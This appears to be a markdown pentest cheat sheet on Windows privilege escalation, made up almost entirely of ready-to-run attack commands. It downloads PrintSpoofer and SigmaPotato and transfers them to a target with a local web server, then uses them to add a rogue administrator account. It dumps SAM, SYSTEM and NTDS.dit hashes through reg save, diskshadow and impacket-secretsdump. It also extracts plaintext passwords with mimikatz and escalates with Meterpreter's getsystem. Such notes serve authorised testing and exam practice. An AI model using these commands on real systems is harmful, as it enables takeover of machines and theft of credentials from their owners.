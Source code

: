 # Enumerate Privileges of current user
```batch
whoami /priv
```
# Privileges known to lead to Privilege Escalation
* SeImpersonatePrivilege
* SeBackupPrivilege
* SeAssignPrimaryToken
* SeLoadDriver
* SeDebug

In most configurations, IIS (Windows Webserver) will run as LocalService, LocalSystem, NetworkService, or ApplicationPoolIdentity, which all have SeImpersonatePrivilege assigned.

This also applies to other Windows services.
# SeImpersonatePrivilege
## PrintSpoofer
Objectively the best way to privesc this imo.
```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```
```
PrintSpoofer64.exe -i -c cmd
```
## Potatoes
```bash
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
```
```bash
python -m http.server 80
```
```powershell
iwr -uri http://$(IP_ADDRESS)/SigmaPotato.exe -OutFile SigmaPotato.exe
```
```powershell
.\SigmaPotato "net user dave4 lab /add"
```
```powershell
.\SigmaPotato "net localgroup Administrators dave4 /add"
```
# SeBackupPrivilege
Domain Controllers won't store passwords in SAM but NTDS.dit - however old passwords could still be there. Always run BOTH on DC.
## Local Windows
```
mkdir C:\temp
```
```
reg save HKLM\SAM SAM
```
```
reg save HKLM\SYSTEM SYSTEM
```
Then transfer the sam and system files to kali (i.e. download on winrm, shared folder on xfreerdp, etc).

Then run the following to dump hashes:
```bash
impacket-secretsdump local -sam SAM -system SYSTEM
```
## Domain Controller
Save this as diskshadow.txt:
```
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```
```
unix2dos diskshadow.txt
```
Upload the created file to the target.

On the remote target, run the following:
```
mkdir C:\temp
```
```
diskshadow /s diskshadow.txt
```
```
robocopy /b E:\Windows\ntds . ntds.dit
```
Transfer ntds.dit from the target to the attacker machine.

Then run the following to dump hashes:
```
impacket-secretsdump local -ntds ntds.dit -system system
```
# Mimikatz
If a user has either of the following privileges, mimikatz can be used:
* SeImpersonatePrivilege
* SeDebugPrivilege

Once mimikatz is transferred to the target windows device, run it as administrator via powershell.

Enable SeDebugPrivilege (require for dumping passwords):
```
privilege::debug
```
Elevate privileges to SYSTEM (also required):
```
token::elevate
```
Dump plaintext and hashed passwords from ALL sources:
```
sekurlsa::logonpasswords
```
Dump only NTLM hashes from SAM database:
```
lsadump::sam
```
# Meterpreter
```
getsystem
```
